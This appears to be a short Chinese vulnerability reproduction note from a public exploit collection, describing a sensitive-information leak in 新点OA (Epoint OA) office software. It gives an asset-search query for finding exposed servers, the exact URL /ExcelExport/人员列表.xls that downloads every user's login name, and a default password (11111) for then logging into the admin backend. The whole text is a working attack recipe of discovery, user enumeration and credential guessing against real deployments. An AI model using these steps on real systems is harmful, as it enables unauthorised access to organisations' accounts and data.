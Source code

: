 # 

# 新点OA ExcelExport 敏感信息泄露漏洞

## 漏洞描述

新点OA 存在敏感信息泄露漏洞，访问特定的Url时可以获取所有用户的登录名信息，攻击者获取后可以进一步利用

## 漏洞影响

```
新点OA
```

## 网络测绘

```
app="新点OA"
```

## 漏洞复现

构造的Url为

```plain
/ExcelExport/人员列表.xls
```

将会下载人员列表文件

![xindian](./images/xindian.png)

通过获取的登录名登陆后台(默认密码11111)
